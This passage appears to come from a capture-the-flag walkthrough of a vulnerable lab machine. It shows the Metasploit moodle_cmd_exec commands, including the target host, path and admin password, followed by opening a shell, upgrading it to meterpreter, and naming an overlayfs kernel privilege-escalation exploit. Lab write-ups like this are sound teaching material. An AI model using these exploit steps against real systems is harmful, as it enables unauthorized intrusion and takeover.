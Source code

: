Now its time to run the metasploit again with the help of this command

1.use exploit/multi/http/moodle_cmd_exec

2.msf exploit(moodle_cmd_exec) > set rhost severnaya-station.com

3.msf exploit(moodle_cmd_exec) > set targeturi /gnocertdir

4.msf exploit(moodle_cmd_exec) > set username admin

5.msf exploit(moodle_cmd_exec) > set password xWinter1995x!

<img src="Images/22.JPG" width="500px">

yeahh!! now i succesfully got a command shell session 1. As i love the meterpreter session, so i upgrade it into meterpreter shell.

**session -u 1**

Using sysinfo, i enumerated its kernel and focused on Linux 3.13 and if u familiar with the kernel u will find post exploit for  Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) – **‘overlayfs‘**
Local Priv Escalation
